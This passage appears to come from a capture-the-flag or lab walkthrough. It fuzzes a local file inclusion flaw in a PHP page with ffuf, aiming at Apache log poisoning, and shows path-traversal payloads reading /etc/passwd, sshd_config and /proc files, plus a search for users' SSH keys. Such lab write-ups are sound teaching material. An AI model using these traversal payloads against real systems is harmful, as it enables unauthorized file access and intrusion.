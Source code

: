 
There are two users here with directories in home: natraj and mahakal.
I searched for any ssh keys I could access in these directories, but they appear non-existent.
There are a variety of ways to leverage LFI to get RCE. One of those is PHP log poisoning. I'm going to use `LFI-Jhaddix.txt` to fuzz for the location of the Apache log files:

```bash
$ ffuf -u http://192.168.196.80/console/file.php?file=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 1

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.196.80/console/file.php?file=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 47ms]
/etc/apache2/apache2.conf [Status: 200, Size: 7224, Words: 942, Lines: 228, Duration: 43ms]
/etc/apt/sources.list   [Status: 200, Size: 3018, Words: 310, Lines: 56, Duration: 44ms]
/etc/crontab            [Status: 200, Size: 722, Words: 103, Lines: 16, Duration: 43ms]
/etc/fstab              [Status: 200, Size: 625, Words: 186, Lines: 12, Duration: 43ms]
/etc/hosts              [Status: 200, Size: 186, Words: 19, Lines: 8, Duration: 44ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 186, Words: 19, Lines: 8, Duration: 44ms]
/etc/hosts.allow        [Status: 200, Size: 411, Words: 82, Lines: 11, Duration: 37ms]
/etc/hosts.deny         [Status: 200, Size: 711, Words: 128, Lines: 18, Duration: 36ms]
/etc/issue              [Status: 200, Size: 24, Words: 5, Lines: 3, Duration: 38ms]
/etc/init.d/apache2     [Status: 200, Size: 8181, Words: 1500, Lines: 356, Duration: 44ms]
/etc/nsswitch.conf      [Status: 200, Size: 513, Words: 131, Lines: 21, Duration: 37ms]
/./././././././././././etc/passwd [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 43ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 40ms]
/etc/passwd             [Status: 200, Size: 1398, Words: 9, Lines: 28, Duration: 40ms]
<SNIP>
/etc/resolv.conf        [Status: 200, Size: 701, Words: 96, Lines: 18, Duration: 43ms]
/etc/rpc                [Status: 200, Size: 887, Words: 36, Lines: 41, Duration: 43ms]
/etc/ssh/sshd_config    [Status: 200, Size: 3264, Words: 294, Lines: 123, Duration: 40ms]
/etc/updatedb.conf      [Status: 200, Size: 403, Words: 42, Lines: 5, Duration: 41ms]
/proc/cpuinfo           [Status: 200, Size: 1081, Words: 135, Lines: 29, Duration: 37ms]
/proc/interrupts        [Status: 200, Size: 3513, Words: 1338, Lines: 69, Duration: 38ms]
/proc/loadavg           [Status: 200, Size: 25, Words: 5, Lines: 2, Duration: 38ms]
/proc/meminfo           [Status: 200, Size: 1335, Words: 485, Lines: 49, Duration: 39ms]
/proc/mounts            [Status: 200, Size: 2447, Words: 166, Lines: 34, Duration: 38ms]
/proc/net/arp           [Status: 200, Size: 158, Words: 73, Lines: 3, Duration: 37ms]
/proc/net/route         [Status: 200, Size: 384, Words: 211, Lines: 4, Duration: 37ms]
/proc/net/dev           [Status: 200, Size: 447, Words: 237, Lines: 5, Duration: 37ms]
/proc/net/tcp           [Status: 200, Size: 450, Words: 173, Lines: 4, Duration: 36ms]
/proc/self/status       [Status: 200, Size: 1255, Words: 92, Lines: 54, Duration: 42ms]
/proc/partitions        [Status: 200, Size: 116, Words: 51, Lines: 6, Duration: 43ms]
```